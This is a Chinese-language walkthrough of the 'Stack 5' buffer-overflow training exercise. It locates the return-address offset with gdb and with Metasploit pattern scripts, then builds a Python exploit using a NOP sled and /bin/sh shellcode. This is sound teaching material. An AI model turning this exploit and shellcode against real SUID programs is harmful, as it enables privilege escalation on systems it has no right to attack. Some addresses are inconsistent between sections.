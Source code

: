 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。

2）用kali metasploit环境下的pattern\__create.rb脚本来生成要填充的标志性的字符串，再用pattern_\_offset来定位漏洞触发的位置。

![](/png/19.png)

3\)用生成的长度为100的字符串进行定位溢出点

![](/png/20.png)

程序在0x63413563处崩溃。用pattern\_offset.py定位溢出位置，找到距离buffer起始位置的偏移。

![](/png/21.png)

在偏移量76处，程序崩溃。这跟手工定位的位置是一样的。

![](/png/22.png)

4）若想用这个stack5二进制文件获取shell,需要确定这个二进制文件是否具有suid权限。可以用find命令实现。

![](/png/23.png)

小结：就是计算填充缓冲区的大小有两种方法：

第一种：手工 （利用gdb 定位eip地址---buff起始地址\(print $esp查看之后buff起始地址）

第二种：借助于metasploit模块里的脚本定位偏移量。

5）漏洞利用代码编写

技巧：利用NOP空操作模块可以确保漏洞利用代码不会失败。因为我们无法始终指向正确的地址，所以利用空指令来指向他们，直到shellcode入口位置。

76个a + eip\(覆盖为要跳转到的地址,可以是下一条指令的地址\) + NOP+shellcode

用python编写exploit.py

1\)导入struct模块

import struct

2\)填充字符a

pad='a'\*76

3\)接下来是漏洞触发 覆盖eip的地方，把eip地址覆盖成shellcode的入口地址，也可以是下一条要执行的指令的地址。原始eip的地址是0xbffffcbc，下一条指令的地址是0xbffffcbc+4= 0xbffffcc0  我们需要把这个值添加到一个变量中，但请记住，存放时要把字节顺序反过来，这就是为什么导入struct模块的原因。在Python解释器中导入struct模块，具体命令为import struct;，然后键入struct.pack（“i”，0xBFFF780\)，将会得到\x80\xF7\xFF\xBF，这样一来，就不用担心把顺序弄错了。

EIP = struct.pack\("I", 0xbffffcc0\)

紧跟着的是NOP 和 shellcode

shellcode可以采用exploit-db 上一个重新开启一个/bin/sh 终端。

char sc\[\] =

"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"

"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"

"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

最后形成的利用代码如下：

![](/png/24.png)

执行后：

![](/png/25.png)

Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)

[https://www.exploit-db.com/exploits/13357](https://www.exploit-db.com/exploits/13357)

